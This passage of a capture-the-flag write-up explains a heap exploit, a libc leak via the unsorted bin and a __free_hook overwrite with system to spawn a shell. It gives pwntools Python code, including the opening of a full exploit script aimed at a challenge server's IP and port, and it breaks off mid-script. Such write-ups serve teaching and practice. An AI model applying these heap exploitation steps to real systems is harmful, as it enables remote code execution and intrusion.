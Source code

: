 For the libc leak we can do the usual unsorted bin leak (free a chunk into the unsorted bin, then read the pointer to the arena that will be placed in the heap).
Here we create a node with arbitrary big `text_len` to be able to read out of bound, then allocate and free a chunk to read the heap-metadata of the freed chunk.
```python
nb = create(0)
# Bug: write_bin with size 0 will return 1 instead of a pointer.
write_bin(nb, '')
# This node can be overwritten with nb.text.
n1 = create(nb)
# Node that will be freed for the libc leak.
n2 = create(nb)
# Allocate >0x400 bytes so that the chunk will skip the tcache.
write_text(n2, 'X'*0x500)
# Create another node to avoid consolidation with the top chunk.
n3 = create(nb)
# Free node 2 for the unsorted bin leak: the freed chunk now contains pointers to the main arena.
disconnect(nb, n2)
gc()
# Craft n1 so that we can read the pointers from the heap.
crafted = craft(n1, text_idx=n1, text_len=0x100)
write_text(nb, crafted)
# Leak.
leak = read(n1)
```

# The exploit
In the following code we will omit the primitives for simplicity sake, the complete script can be found [here](https://gist.github.com/zommiommy/10207a8cb3900ec520d63b46046d47ab).

Now that we can leak a libc address and we have a write-what-where primitive we can open a shell by either modifying the `.got.plt` or by overwriting one of the hooks in the libc.
We chose to overwrite the `__free_hook` since it's faster.

Steps to get a shell:
 - get the leak
 - craft the nodes for the arbitrary write
 - write the address of `system` in `__free_hook`
 - create a text with `/bin/sh\x00` and then free it

The full exploit:
```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
host = '13.231.226.137'
port = 9573

p = remote(host, port)

# Step 1: leak libc base.
# Prepare a root node for later. In the second step the DFS will go down here first,
# so it won't crash on the nodes we crafted in the first step.
na = create(0)
# Root node for step 1.
nb = create(0)
# Bug: write_bin with size 0 will return 1 instead of a pointer.
write_bin(nb, '')
# This node can be overwritten with nb.text.
n1 = create(nb)
# Node that will be freed for the libc leak.
n2 = create(nb)
# Allocate >0x400 bytes so that the chunk will skip the tcache.
write_text(n2, 'X'*0x500)
```